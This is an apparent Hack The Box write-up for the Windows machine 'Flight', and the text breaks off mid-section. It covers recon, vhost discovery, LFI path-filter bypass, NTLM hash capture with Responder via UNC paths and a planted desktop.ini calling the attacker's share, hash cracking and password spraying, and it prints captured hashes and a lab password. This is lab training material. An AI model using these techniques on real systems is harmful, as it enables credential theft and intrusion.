

## Intro


[[windows]] [[NotAssumedBreach]] [[webapp]] [[PortForwarding]] [[Impersonation]] [[DCSync]] [[WinPEAS]] [[Vhosts]] [[OSCPpath]]
Tags: #windows #NotAssumedBreach #WebApp #PortForwarding #Impersonation #DCSync #WinPEAS #Vhosts

Tools used:

- whatweb (banner grabbing)
- gobuster (domain and subdomain enumeration)
- smbclient (SMB enumeration)
- chisel (port forwarding)
- winpeas (windows privesc)
- Runas (User impersonation)
- Rubeus
- secretsdump (DCSync)

---

# Reconnaissance

## Add target to /etc/hosts

```bash
sudo sh -c "echo '10.129.148.8 flight.htb' >> /etc/hosts"
```

## Nmap scan

```bash
sudo nmap -sC -sV flight.htb
```

```bash
Starting Nmap 7.94SVN ( <https://nmap.org> ) at 2025-08-20 11:47 CDT
Nmap scan report for flight.htb (10.129.148.8)
Host is up (0.0081s latency).
Not shown: 988 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: g0 Aviation
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-08-20 23:48:02Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: flight.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: flight.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: G0; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 6h59m59s
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
| smb2-time:
|   date: 2025-08-20T23:48:07
|_  start_date: N/A

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 53.34 seconds
```

Interesting, we see port 80 is open, but first lets look at some other services.

## RPC enumeration

### Anonymous logon

```bash
rpcclient -U "" -N flight.htb
```

access denied when typing any command

## SMB enumeration

### Anonymous logon

```bash
smbclient -N -L flight.htb
```

no shares found

## Web app inspection

This is the `home` page


By clicking on any button and page i see no results or redirects… thats strange

### Banner grabbing

```bash
whatweb flight.htb
```

```bash
http://flight.htb [200 OK] Apache[2.4.52], Country[RESERVED][ZZ], HTML5, HTTPServer[Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1], IP[10.129.148.8], JQuery[1.4.2], OpenSSL[1.1.1m], PHP[8.1.1], Script[text/javascript], Title[g0 Aviation
```

Okay, we got some information there, but nothing stands out, lets move on with further enumeration of the web app

## Web app enumeration

### Domain enumeration

```bash
gobuster dir -e -t50 -x php,txt,html -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u flight.htb
```

```bash
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://flight.htb
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,html,php
[+] Expanded:                true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
http://flight.htb/images               (Status: 301) [Size: 333] [--> http://flight.htb/images/]
http://flight.htb/index.html           (Status: 200) [Size: 7069]
http://flight.htb/.html                (Status: 403) [Size: 299]
http://flight.htb/Images               (Status: 301) [Size: 333] [--> http://flight.htb/Images/]
http://flight.htb/css                  (Status: 301) [Size: 330] [--> http://flight.htb/css/]
http://flight.htb/Index.html           (Status: 200) [Size: 7069]
http://flight.htb/js                   (Status: 301) [Size: 329] [--> http://flight.htb/js/]
http://flight.htb/licenses             (Status: 403) [Size: 418]
http://flight.htb/examples             (Status: 503) [Size: 399]
http://flight.htb/IMAGES               (Status: 301) [Size: 333] [--> http://flight.htb/IMAGES/]
http://flight.htb/%20                  (Status: 403) [Size: 299]
http://flight.htb/INDEX.html           (Status: 200) [Size: 7069]
http://flight.htb/*checkout*           (Status: 403) [Size: 299]
http://flight.htb/*checkout*.txt       (Status: 403) [Size: 299]
http://flight.htb/*checkout*.php       (Status: 403) [Size: 299]
http://flight.htb/*checkout*.html      (Status: 403) [Size: 299]
http://flight.htb/CSS                  (Status: 301) [Size: 330] [--> http://flight.htb/CSS/]
http://flight.htb/JS                   (Status: 301) [Size: 329] [--> http://flight.htb/JS/]
```

Nothing too interesting here.. next i will search for subdomains

### Subdomain enumeration

```bash
gobuster dns -d flight.htb -w /usr/share/seclists/Discovery/DNS/deepmagic.com-prefixes-top50000.txt -i –wildcard
```

```bash
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Domain:     flight.htb
[+] Threads:    10
[+] Show IPs:   true
[+] Timeout:    1s
[+] Wordlist:   /usr/share/seclists/Discovery/DNS/deepmagic.com-prefixes-top50000.txt
===============================================================
Starting gobuster in DNS enumeration mode
===============================================================
Progress: 49928 / 49929 (100.00%)
===============================================================
Finished
===============================================================
```

No subdomains found

hm after many hours of searching through the web app, i found nothing. Then by doing some research about web app enumeration i came accross some terms i did not know and havent seen before, like virtual hosts, so lets look if these exist in our occassion:

## Virtual host enumeration

### What is virtual host?

`virtual hosting` is the ability of web servers to distinguish between multiple websites or applications sharing the same IP address.

### Subdomains vs VHosts

- **Subdomains** are part of a domain name (like `blog.example.com`) and are managed in **DNS**. They help organize services (blog, shop, mail, etc.).
- **Virtual Hosts (VHosts)** are **web server configurations** that tell the server how to handle different domain names or subdomains on the same IP.

Even if a domain/subdomain doesn’t exist in DNS, you can still access it by manually mapping it in your **hosts file**.

Attackers and pentesters use **VHost fuzzing** to find hidden or internal subdomains/VHosts by trying different names against a target IP.

| Feature | Subdomains | Virtual Hosts (VHosts) |
| --- | --- | --- |
| **Definition** | Extensions of a main domain (e.g., `blog.example.com`). | Web server configurations for handling multiple sites on one IP. |
| **Where Defined** | DNS system (domain records). | Web server (Apache, Nginx, IIS, etc.). |
| **Purpose** | Organize services/sections of a website. | Allow hosting of multiple websites/apps on one server. |
| **Dependency** | Requires a DNS record (unless added manually in hosts file). | Requires web server configuration (may or may not have DNS). |
| **Examples** | `shop.example.com`, `mail.example.com`. | `example.com` and `dev.example.com` on same IP but separate configs. |
| **Accessibility** | Public if DNS record exists, private if hidden. | Public if DNS points to it, otherwise can still exist internally. |
| **Discovery** | Found via DNS enumeration. | Found via VHost fuzzing (testing hostnames on an IP). |

For example:

- A single server with IP `192.168.1.10`
- Can serve `example.com` **and** `blog.example.com` **and** `shop.com` — all on the same machine.

Lets perform vhost enumeration using gobuster

```bash
gobuster vhost -u http://flight.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --append-domain
```

```bash
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://flight.htb
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: '.flight.htb Status: 400 [Size: 326]
Found: school.flight.htb Status: 200 [Size: 3996]
Found: %20.flight.htb Status: 400 [Size: 326]
Found: $FILE.flight.htb Status: 400 [Size: 326]
Found: $file.flight.htb Status: 400 [Size: 326]
Found: *checkout*.flight.htb Status: 400 [Size: 326]
Found: *docroot*.flight.htb Status: 400 [Size: 326]
Found: School.flight.htb Status: 200 [Size: 3996]
```

interesting, it has indeed found virtual hosts, specifically the one with status 200:

```bash
Found: school.flight.htb Status: 200 [Size: 3996]
```

But what to do with it? Well, since we found this one, lets add it on etc hosts:

```bash
sudo sh -c "echo '10.129.148.8 school.flight.htb' >> /etc/hosts"
```

And then navigate there on our browser:


Just like the homepage, nothing is clickable here and no redirects were found by pressing buttons/links.. hm how to move forward here?

First, we could try finding information about the website’s tech stack (versions etc)

### Banner grabbing

```bash
whatweb school.flight.htb
```

```bash
http://school.flight.htb [200 OK] Apache[2.4.52], Country[RESERVED][ZZ], HTML5, HTTPServer[Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1], IP[10.129.228.120], OpenSSL[1.1.1m], PHP[8.1.1], Title[Aviation School], X-Powered-By[PHP/8.1.1]
```

It seems that this is an apache web server, version `2.4.52` and also i can see `X-Powered-By[PHP/8.1.1]` indicating php is involved.

The version can also be seen by `wappalyzer` :


Before we move on, lets enumerate this one for directories too like we did for `flight.htb` :

```bash
gobuster dir -e -t50 -x php,txt,html -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u school.flight.htb
```

```bash
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://school.flight.htb
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404,400,429
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,html
[+] Expanded:                true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
http://school.flight.htb/.html                (Status: 403) [Size: 306]
http://school.flight.htb/images               (Status: 301) [Size: 347] [--> http://school.flight.htb/images/]
http://school.flight.htb/index.php            (Status: 200) [Size: 3996]
http://school.flight.htb/blog.html            (Status: 200) [Size: 3618]
http://school.flight.htb/home.html            (Status: 200) [Size: 2683]
http://school.flight.htb/about.html           (Status: 200) [Size: 1689]
http://school.flight.htb/Images               (Status: 301) [Size: 347] [--> http://school.flight.htb/Images/]
http://school.flight.htb/Home.html            (Status: 200) [Size: 2683]
http://school.flight.htb/About.html           (Status: 200) [Size: 1689]
http://school.flight.htb/Index.php            (Status: 200) [Size: 3996]
http://school.flight.htb/Blog.html            (Status: 200) [Size: 3618]
http://school.flight.htb/styles               (Status: 301) [Size: 347] [--> http://school.flight.htb/styles/]
http://school.flight.htb/licenses             (Status: 403) [Size: 425]
http://school.flight.htb/examples             (Status: 503) [Size: 406]
http://school.flight.htb/IMAGES               (Status: 301) [Size: 347] [--> http://school.flight.htb/IMAGES/]
http://school.flight.htb/%20                  (Status: 403) [Size: 306]
http://school.flight.htb/INDEX.php            (Status: 200) [Size: 3996]
http://school.flight.htb/*checkout*.html      (Status: 403) [Size: 306]
http://school.flight.htb/*checkout*.txt       (Status: 403) [Size: 306]
http://school.flight.htb/*checkout*.php       (Status: 403) [Size: 306]
http://school.flight.htb/*checkout*           (Status: 403) [Size: 306]
http://school.flight.htb/phpmyadmin           (Status: 403) [Size: 425]
http://school.flight.htb/HOME.html            (Status: 200) [Size: 2683]
http://school.flight.htb/webalizer            (Status: 403) [Size: 425]
http://school.flight.htb/Styles               (Status: 301) [Size: 347] [--> http://school.flight.htb/Styles/]
http://school.flight.htb/*docroot*.txt        (Status: 403) [Size: 306]
http://school.flight.htb/ABOUT.html           (Status: 200) [Size: 1689]
```

Okay, found some pages here, what does these tell us tho? lets ty navigating on some of them:

`index.php` : actually goes into the home page


`/images` shows the images and gifs of the page:


Now sth i did not notice earlier, there are buttons that appear only when i hover upon them:

`Home` basically is the home page and does not redirect elsewhere: full url [`http://school.flight.htb/index.php?view=home.html`](http://school.flight.htb/index.php?view=home.html)


`About us` . full url: [`http://school.flight.htb/index.php?view=about.html`](http://school.flight.htb/index.php?view=about.html)


Interesting, this one goes on another page:


It mentions template, in the lower part of the page:

```bash

Template details

Version 4
Website Template details, discussion and updates for this Aviation School template. Website Template design by Free Website Templates. Please feel free to remove some or all the text and links of this page and replace it with your own About content.
```

I dont know if this might be a hint, we will keep that in mind for later if needed.

`Blog` , full url [`http://school.flight.htb/index.php?view=blog.html`](http://school.flight.htb/index.php?view=blog.html)


In this page no redirects where observed, nothing is clickable apart from the navigation bar (Home, About us, Blog)

## Exploiting the WebApp

Alright, we found some more pages, but i mentioned their full url’s on purpose! What do we know about these urls?

Well, the urls contain flags/arguments, like `?` sth, this is called query string, and inside it flags/paramteres are located. Parameters are separated with `&` like this example below:

```bash
http://example.com/index.php?view=home&id=5
```

So what types of vulnerabilities can be exploited via parameters on the url?

- LFI
- RFI
- Path traversal

### Checking for LFI

Checking some windows system files first, with `relative` paths:

```html
/index.php?view=../../../../windows/win.ini
/index.php?view=../../../../windows/system32/drivers/etc/hosts
```

But no luck, again received Suspicious Activity Blocked

Lets try now with `absolute` paths:

```html
http://school.flight.htb/index.php?view=C:/Windows/System32/drivers/etc/hosts
```

Nice! this did not get blocked and we received the file’s contents:


I guess the previous relative paths got blocked because it has detected the `../` parts.

Before moving forwards, we could try doing some fuzzing values for the `view` paramter here to see if we can get any vaulable files:

```html
wfuzz -f ./fuzz-output.csv,csv -c -w ../Common/file_inclusion_windows.txt --hw 89,95 http://school.flight.htb/index.php?view=FUZZ
```

Unfortunately, i got nothing interesting from this one… lets move on

Lets try sth else, like php filter tricks to bypass extension checks:

```html
/index.php?view=php://filter/convert.base64-encode/resource=index.php
```

again blocked….

### Checking for RFI

Since we found that LFI exists, the next step would be to check for RFI too.

Lets check for UNC paths, this will work if `allow_url_include` or SMB fetching is enabled, and the app might try to load remote files.

```html
http://school.flight.htb/index.php?view=//10.10.14.180/myamazingshare
```

we could also try to capture the NTLM hash of the account running the web server by making it authenticate against our SMB share.

IMPORTANT!: it did not work with `\` it got blocked, it only worked with `/`

First start the responder

```html
sudo responder -I tun0 -wP
```

then hit the previous url on the browser, and receive the response on the responder with the NTLM hash

```html
[+] Listening for events...

[SMB] NTLMv2-SSP Client   : 10.129.228.120
[SMB] NTLMv2-SSP Username : flight\svc_apache
[SMB] NTLMv2-SSP Hash     : svc_apache::flight:b3e91d07e8f0b746:04154593360088968E55D50CACE9BDC9:0101000000000000808519825913DC014B2194F5D02C9DC00000000002000800490036003300510001001E00570049004E002D004A00530052004100430032004F004C0030004100500004003400570049004E002D004A00530052004100430032004F004C003000410050002E0049003600330051002E004C004F00430041004C000300140049003600330051002E004C004F00430041004C000500140049003600330051002E004C004F00430041004C0007000800808519825913DC01060004000200000008003000300000000000000000000000003000005108C442C3741020BE0C1669030BA6011CB2E34E998B97B6DD2F82EF286BF89D0A001000000000000000000000000000000000000900220063006900660073002F00310030002E00310030002E00310034002E003100380030000000000000000000
```

nice! we got the `NTLM` hash of `svc_apache` user, 

## Cracking NTLM hash

unzip the wordlist (on HTB pwnbox its on zip format)

```html
sudo gunzip /usr/share/wordlists/rockyou.txt.gz
```

next crack it with john the ripper

```html
john svc_hash --wordlist=/usr/share/wordlists/rockyou.txt
```

it was cracked successfully, and we got the password:

```html
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
S@Ss!K@*t13      (svc_apache)     
1g 0:00:00:04 DONE (2025-08-22 12:06) 0.2136g/s 2278Kp/s 2278Kc/s 2278KC/s SADSAM..S42150461
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed. 
```

lets now see where we can login with those creds:

```bash
svc_apache
S@Ss!K@*t13
```

## Checking where we can login with svc_apache creds

Since we now have valid creds, lets use my script to bulk check the services that we can connect to via win-rm: [ch3ckkm8/auto_netexec: Automating netexec to bulk check all available services, given the target and the creds to check](https://github.com/ch3ckkm8/auto_netexec)

```bash
./auto_netexec_bulk_creds_checker.sh flight.htb 'svc_apache' 'S@Ss!K@*t13'
```

```bash
WINRM       10.129.228.120  5985   G0               [*] Windows 10 / Server 2019 Build 17763 (name:G0) (domain:flight.htb)
WINRM       10.129.228.120  5985   G0               [-] flight.htb\svc_apache:S@Ss!K@*t13

[*] Checking if smb port 445 is open on flight.htb...
[+] Port 445 open — checking smb with netexec
SMB         10.129.228.120  445    G0               [*] Windows 10 / Server 2019 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
SMB         10.129.228.120  445    G0               [+] flight.htb\svc_apache:S@Ss!K@*t13 

[*] Checking if ldap port 389 is open on flight.htb...
[+] Port 389 open — checking ldap with netexec
SMB         10.129.228.120  445    G0               [*] Windows 10 / Server 2019 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
LDAP        10.129.228.120  389    G0               [+] flight.htb\svc_apache:S@Ss!K@*t13 

[*] Checking if rdp port 3389 is open on flight.htb...
[-] Skipping rdp — port 3389 is closed

[*] Checking if wmi port 135 is open on flight.htb...
[+] Port 135 open — checking wmi with netexec
RPC         10.129.228.120  135    G0               [*] Windows 10 / Server 2019 Build 17763 (name:G0) (domain:flight.htb)
RPC         10.129.228.120  135    G0               [+] flight.htb\svc_apache:S@Ss!K@*t13 

[*] Checking if nfs port 2049 is open on flight.htb...
[-] Skipping nfs — port 2049 is closed

[*] Checking if ssh port 22 is open on flight.htb...
[-] Skipping ssh — port 22 is closed

[*] Checking if vnc port 5900 is open on flight.htb...
[-] Skipping vnc — port 5900 is closed

[*] Checking if ftp port 21 is open on flight.htb...
[-] Skipping ftp — port 21 is closed

[*] Checking if mssql port 1433 is open on flight.htb...
[-] Skipping mssql — port 1433 is closed

```

It seems we can login to:  `SMB` `LDAP` `RPC` services, we will now proceed with their enumeration

## SMB enumeration as svc_apache

```bash
nxc smb sequel.htb  -u 'svc_apache' -p 'S@Ss!K@*t13' --shares
```

```bash
SMB         10.129.228.120  445    G0               [*] Windows 10 / Server 2019 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
SMB         10.129.228.120  445    G0               [+] flight.htb\svc_apache:S@Ss!K@*t13 
SMB         10.129.228.120  445    G0               [*] Enumerated shares
SMB         10.129.228.120  445    G0               Share           Permissions     Remark
SMB         10.129.228.120  445    G0               -----           -----------     ------
SMB         10.129.228.120  445    G0               ADMIN$                          Remote Admin
SMB         10.129.228.120  445    G0               C$                              Default share
SMB         10.129.228.120  445    G0               IPC$            READ            Remote IPC
SMB         10.129.228.120  445    G0               NETLOGON        READ            Logon server share 
SMB         10.129.228.120  445    G0               Shared          READ            
SMB         10.129.228.120  445    G0               SYSVOL          READ            Logon server share 
SMB         10.129.228.120  445    G0               Users           READ            
SMB         10.129.228.120  445    G0               Web             READ
```

Interesting, we have `READ` permission towards some shares that are non default: `Web` and other ones that seem valuable like `Shared` `Users`

Next we can start navigating through these shares and see what we can find:

```bash
smbclient //flight.htb/Users -U 'svc_apache%S@Ss!K@*t13'
```

```bash
smb: \> ls
  .                                  DR        0  Thu Sep 22 15:16:56 2022
  ..                                 DR        0  Thu Sep 22 15:16:56 2022
  .NET v4.5                           D        0  Thu Sep 22 14:28:03 2022
  .NET v4.5 Classic                   D        0  Thu Sep 22 14:28:02 2022
  Administrator                       D        0  Mon Oct 31 13:34:00 2022
  All Users                       DHSrn        0  Sat Sep 15 02:28:48 2018
  C.Bum                               D        0  Thu Sep 22 15:08:23 2022
  Default                           DHR        0  Tue Jul 20 14:20:24 2021
  Default User                    DHSrn        0  Sat Sep 15 02:28:48 2018
  desktop.ini                       AHS      174  Sat Sep 15 02:16:48 2018
  Public                             DR        0  Tue Jul 20 14:23:25 2021
  svc_apache                          D        0  Fri Oct 21 13:50:21 2022

		5056511 blocks of size 4096. 1190909 blocks available
```

## Finding valid users

Enumerate users and groups through smb using rid-brute-forcing

```bash
nxc smb flight.htb -u 'svc_apache' -p 'S@Ss!K@*t13' --rid-brute
```

alternatively we could run the `--users` option for displaying the users only

lets place them on a txt now

```bash
nxc smb flight.htb -u 'svc_apache' -p 'S@Ss!K@*t13' --rid-brute | grep SidTypeUser | cut -d'\' -f2 | cut -d' ' -f1 | tee users.txt
```

the valid users are:

```bash
Administrator
Guest
krbtgt
G0$
S.Moon
R.Cold
G.Lors
L.Kein
M.Gold
C.Bum
W.Walker
I.Francis
D.Truff
V.Stevens
svc_apache
O.Possum
```

Also lets inspect if there are any comments with sensitive info in the LDAP description for the users:

```bash
nxc ldap flight.htb  -u 'svc_apache' -p 'S@Ss!K@*t13' --users
```

```bash
SMB         10.129.228.120  445    G0               [*] Windows 10 / Server 2019 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
LDAP        10.129.228.120  389    G0               [+] flight.htb\svc_apache:S@Ss!K@*t13 
LDAP        10.129.228.120  389    G0               [*] Total records returned: 15
LDAP        10.129.228.120  389    G0               -Username-                    -Last PW Set-       -BadPW- -Description-                                               
LDAP        10.129.228.120  389    G0               Administrator                 2022-09-22 20:17:02 22      Built-in account for administering the computer/domain      
LDAP        10.129.228.120  389    G0               Guest                         <never>             22      Built-in account for guest access to the computer/domain    
LDAP        10.129.228.120  389    G0               krbtgt                        2022-09-22 19:48:01 22      Key Distribution Center Service Account                     
LDAP        10.129.228.120  389    G0               S.Moon                        2022-09-22 20:08:22 22      Junion Web Developer                                        
LDAP        10.129.228.120  389    G0               R.Cold                        2022-09-22 20:08:22 22      HR Assistant                                                
LDAP        10.129.228.120  389    G0               G.Lors                        2022-09-22 20:08:22 22      Sales manager                                               
LDAP        10.129.228.120  389    G0               L.Kein                        2022-09-22 20:08:22 22      Penetration tester                                          
LDAP        10.129.228.120  389    G0               M.Gold                        2022-09-22 20:08:22 22      Sysadmin                                                    
LDAP        10.129.228.120  389    G0               C.Bum                         2022-09-22 20:08:22 22      Senior Web Developer                                        
LDAP        10.129.228.120  389    G0               W.Walker                      2022-09-22 20:08:22 22      Payroll officer                                             
LDAP        10.129.228.120  389    G0               I.Francis                     2022-09-22 20:08:22 22      Nobody knows why he's here                                  
LDAP        10.129.228.120  389    G0               D.Truff                       2022-09-22 20:08:22 22      Project Manager                                             
LDAP        10.129.228.120  389    G0               V.Stevens                     2022-09-22 20:08:22 22      Secretary                                                   
LDAP        10.129.228.120  389    G0               svc_apache                    2022-09-22 20:08:23 0       Service Apache web                                          
LDAP        10.129.228.120  389    G0               O.Possum                      2022-09-22 20:08:23 22      Helpdesk    
```

No credentials found or any other useful info on the LDAP description

---

# Foothold

## Password spraying

using this wordlist

We have our user list, and for our password spraying attempt we can use a very short list of statistically likely passwords. It's worth appending the discovered usernames to this list, as having a password of the username is unfortunately a common practice.

```bash
wget [https://raw.githubusercontent.com/insidetrust/statistically-likely-](https://raw.githubusercontent.com/insidetrust/statistically-likely-)usernames/master/weak-corporate-passwords/english-basic.txt
cat users.txt >> english-basic.txt
```

Also add the password of `svc_apache` to check for `password reuse`

```bash
echo 'S@Ss!K@*t13' >> english-basic.txt
```

now that we have the valid users, lets do some password spraying

```bash
nxc smb flight.htb-u users.txt -p english-basic.txt --continue-on-success
```

great! it appears that password reuse is taking place and user `S.Moon` had the same password as `svc_apache` ! creds obtained:

```bash
S.Moon
S@Ss!K@*t13
```

## Checking where we can login with S.Moon creds

Since we now have valid creds, lets use my script to bulk check the services that we can connect to via win-rm: [ch3ckkm8/auto_netexec: Automating netexec to bulk check all available services, given the target and the creds to check](https://github.com/ch3ckkm8/auto_netexec)

```bash
./auto_netexec_bulk_creds_checker.sh flight.htb 'S.Moon' 'S@Ss!K@*t13'
```

```bash
[*] Checking if winrm port 5985 is open on flight.htb...
[+] Port 5985 open — checking winrm with netexec
WINRM       10.129.228.120  5985   G0               [*] Windows 10 / Server 2019 Build 17763 (name:G0) (domain:flight.htb)
WINRM       10.129.228.120  5985   G0               [-] flight.htb\S.Moon:S@Ss!K@*t13

[*] Checking if smb port 445 is open on flight.htb...
[+] Port 445 open — checking smb with netexec
SMB         10.129.228.120  445    G0               [*] Windows 10 / Server 2019 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
SMB         10.129.228.120  445    G0               [+] flight.htb\S.Moon:S@Ss!K@*t13 

[*] Checking if ldap port 389 is open on flight.htb...
[+] Port 389 open — checking ldap with netexec
SMB         10.129.228.120  445    G0               [*] Windows 10 / Server 2019 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
LDAP        10.129.228.120  389    G0               [+] flight.htb\S.Moon:S@Ss!K@*t13 

[*] Checking if rdp port 3389 is open on flight.htb...
[-] Skipping rdp — port 3389 is closed

[*] Checking if wmi port 135 is open on flight.htb...
[+] Port 135 open — checking wmi with netexec
RPC         10.129.228.120  135    G0               [*] Windows 10 / Server 2019 Build 17763 (name:G0) (domain:flight.htb)
RPC         10.129.228.120  135    G0               [+] flight.htb\S.Moon:S@Ss!K@*t13 

[*] Checking if nfs port 2049 is open on flight.htb...
[-] Skipping nfs — port 2049 is closed

[*] Checking if ssh port 22 is open on flight.htb...
[-] Skipping ssh — port 22 is closed

[*] Checking if vnc port 5900 is open on flight.htb...
[-] Skipping vnc — port 5900 is closed

[*] Checking if ftp port 21 is open on flight.htb...
[-] Skipping ftp — port 21 is closed

[*] Checking if mssql port 1433 is open on flight.htb...
[-] Skipping mssql — port 1433 is closed

```

We can login towards `SMB` `LDAP` `RPC` services, here we go again…

## SMB enumeration as S.Moon

```bash
nxc smb flight.htb  -u 'S.Moon' -p 'S@Ss!K@*t13' --shares
```

```bash
SMB         10.129.228.120  445    G0               [*] Windows 10 / Server 2019 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
SMB         10.129.228.120  445    G0               [+] flight.htb\S.Moon:S@Ss!K@*t13 
SMB         10.129.228.120  445    G0               [*] Enumerated shares
SMB         10.129.228.120  445    G0               Share           Permissions     Remark
SMB         10.129.228.120  445    G0               -----           -----------     ------
SMB         10.129.228.120  445    G0               ADMIN$                          Remote Admin
SMB         10.129.228.120  445    G0               C$                              Default share
SMB         10.129.228.120  445    G0               IPC$            READ            Remote IPC
SMB         10.129.228.120  445    G0               NETLOGON        READ            Logon server share 
SMB         10.129.228.120  445    G0               Shared          READ,WRITE      
SMB         10.129.228.120  445    G0               SYSVOL          READ            Logon server share 
SMB         10.129.228.120  445    G0               Users           READ            
SMB         10.129.228.120  445    G0               Web             READ
```

Thats different now, this user was also `WRITE` permissions to the share `Shared`

```bash
smbclient //flight.htb/shared -U 's.moon%S@Ss!K@*t13'
```

First lets inspect the share,

```bash
smb: \> ls
  .                                   D        0  Fri Aug 22 19:55:34 2025
  ..                                  D        0  Fri Aug 22 19:55:34 2025

		5056511 blocks of size 4096. 1189577 blocks available
```

it is empty

## Leaking another user’s NTLM hash

but since we have `WRITE` permissions, we might have to upload sth there

Found this: https://hacktricks.boitatech.com.br/windows/ntlm/places-to-steal-ntlm-creds#desktop.ini

Create a file called `desktop.ini`

```bash
echo [.ShellClassInfo] > desktop.ini
echo 'IconResource=\\10.10.14.180\thebestshareever' >> desktop.ini
```

Navigate to the share and upload the file:

```bash
smbclient //flight.htb/shared -U 's.moon%S@Ss!K@*t13'
smb: \> put desktop.ini
putting file desktop.ini as \desktop.ini (2.4 kb/s) (average 2.4 kb/s)
```

Now start the responder:

```bash
sudo responder -I tun0 -wP
```

then navigate to the share again:

```bash
└──╼ [★]$ smbclient //flight.htb/shared -U 's.moon%S@Ss!K@*t13'
Try "help" to get a list of possible commands.
smb: \> 
```

aand we got the NTLM hash of another user, `c.bum` !

```bash
[+] Listening for events...

[SMB] NTLMv2-SSP Client   : 10.129.228.120
[SMB] NTLMv2-SSP Username : flight.htb\c.bum
[SMB] NTLMv2-SSP Hash     : c.bum::flight.htb:17d5b761f4a33f2f:5DB137F84725B322F1D060C8911A33C8:010100000000000080A156AD6613DC01DB53B3184F0649420000000002000800460057005300500001001E00570049004E002D0034005700540030004300450052004F0041005000430004003400570049004E002D0034005700540030004300450052004F004100500043002E0046005700530050002E004C004F00430041004C000300140046005700530050002E004C004F00430041004C000500140046005700530050002E004C004F00430041004C000700080080A156AD6613DC01060004000200000008003000300000000000000000000000003000005108C442C3741020BE0C1669030BA6011CB2E34E998B97B6DD2F82EF286BF89D0A001000000000000000000000000000000000000900220063006900660073002F00310030002E00310030002E00310034002E003100380030000000000000000000
```

Now similarly with what we did earlier, we have to crack it

## Cracking NTLM hash

place the hash on a file

```bash
